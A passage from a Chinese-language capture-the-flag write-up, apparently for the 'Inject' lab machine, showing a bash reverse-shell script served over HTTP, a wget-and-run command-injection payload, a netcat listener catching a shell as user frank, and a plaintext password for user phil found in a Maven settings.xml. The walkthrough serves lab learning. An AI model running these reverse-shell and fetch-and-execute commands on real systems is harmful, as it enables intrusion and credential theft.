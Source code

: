 那试试将shell传过去？  
kali里创建反弹shell脚本后用python开启http服务。  
```bash
└─$ cat ss.sh
#!/usr/bin/bash
/usr/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1

└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.204 - - [26/May/2023 08:00:26] "GET /ss.sh HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

└─$ nc -lvnp 4444           
listening on [any] 4444 ...
```

Brup也一边控制目标机获取反弹shell，然后执行，payload如下：

- `wget 10.xx.xx.xx:80/ss.sh -O /tmp/ss.sh`
- `bash /tmp/ss.sh`

成功获得frank用户的shell：
```bash
└─$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.204] 42834
bash: cannot set terminal process group (789): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ id
id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
```

顺便看了一眼，原来刚刚的任意命令执行，传过去的反弹shell属主就是frank。

探索SUID无发现。

### 发现phil用户密码

然后看了看家目录，发现隐藏文件夹 `.m2`，又从里面的 `settings.xml` 发现phil用户的账号密码：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that